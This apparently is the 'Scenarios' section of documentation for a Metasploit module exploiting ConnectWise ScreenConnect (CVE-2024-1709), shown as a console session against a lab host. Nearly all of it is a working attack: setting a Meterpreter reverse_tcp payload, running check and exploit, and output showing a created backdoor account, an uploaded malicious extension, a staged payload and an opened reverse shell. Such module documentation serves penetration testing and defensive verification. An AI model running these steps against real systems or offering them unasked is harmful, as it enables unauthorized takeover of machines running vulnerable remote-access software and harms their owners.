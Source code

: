## Scenarios

### Windows In-Memory

```
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set target 0
target => 0
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set LHOST eth0
LHOST => eth0
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set RHOST 192.168.86.50
RHOST => 192.168.86.50
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > show options

Module options (exploit/multi/http/connectwise_screenconnect_rce_cve_2024_1709):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8040             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     eth0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows In-Memory



View the full module info with the info, or info -d command.

msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > check
[*] 192.168.86.50:8040 - The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7 running on Windows.
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7 running on Windows.
[*] Created account: qyxzcxgk:SMsGSJCbcTaJZ5f2 (Note: This account will not be deleted by the module)
[*] Uploaded Extension: 81060d26-6fc8-5d1a-0566-b6f0503a8934
[*] Removing Extension: 81060d26-6fc8-5d1a-0566-b6f0503a8934
[*] Sending stage (201798 bytes) to 192.168.86.50
[+] Deleted C:\Program Files (x86)\ScreenConnect\App_Extensions\fuypfhwx.ashx
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:50536) at 2024-02-22 14:42:13 +0000
```
